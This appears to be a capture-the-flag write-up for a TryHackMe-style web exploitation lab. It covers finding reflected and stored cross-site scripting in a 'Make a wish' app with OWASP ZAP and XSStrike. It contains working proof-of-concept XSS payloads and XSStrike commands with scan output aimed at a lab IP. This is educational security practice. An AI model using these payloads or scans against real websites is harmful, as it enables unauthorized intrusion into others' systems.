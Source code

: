 # Day 6 - Be careful with what you wish on a Christmas night (Web Exploitation)

1. Helpful links:
    * Input validation strategies: [OWASP/CheatSheetSeries](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Input_Validation_Cheat_Sheet.md)
    * Awesome guide about XSS: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
    * Common payload list: [payloadbox/xss-payload-list](https://github.com/payloadbox/xss-payload-list)
    * For more OWASP Zap guides, check out the following room: [Learn OWASP Zap](https://tryhackme.com/room/learnowaspzap)

2. What vulnerability type was used to exploit the application? `stored crosssite scripting`. This was referenced multiple times in the tutorial.

3. What query string can be abused to craft a reflected XSS? `q`. Inputing some data into the search box shows a `q` parameter in the URL.

4. Run a ZAP (zaproxy) automated scan on the target. How many XSS alerts are in the scan? `2`

    1. Launch OWASP ZAP, click "Automated Scan," and enter `http://10.10.157.93:5000`

    2. Press the "Attack" button.

    3. The bottom left panel will show `2` XSS (red) alerts.

5. Explore the XSS alerts that ZAP has identified, are you able to make an alert appear on the "Make a wish" website? Yes, searching for `</p><script>alert(1);</script><p>` is a reflected XSS attack. Wishing for `</p><script>alert(1);</script><p>` is a persistent/stored XSS attack since it executes on every page load.

6. Let's try [XSStrike](https://github.com/s0md3v/XSStrike).

    1. Install

        ```
        git clone https://github.com/s0md3v/XSStrike
        cd XSStrike
        sudo pip3 install -r requirements.txt
        ```

    2. Execute: `python3 xsstrike.py -u http://10.10.157.93:5000?q=a`

    3. Output

        ```
        XSStrike v3.1.4

        [~] Checking for DOM vulnerabilities 
        [+] WAF Status: Offline 
        [!] Testing parameter: q 
        [!] Reflections found: 1 
        [~] Analysing reflections 
        [~] Generating payloads 
        [!] Payloads generated: 3072 
        ------------------------------------------------------------
        [+] Payload: <htMl%0aonmOusEOvEr%0a=%0a[8].find(confirm)// 
        [!] Efficiency: 100 
        [!] Confidence: 10 
        [?] Would you like to continue scanning? [y/N]
        ```

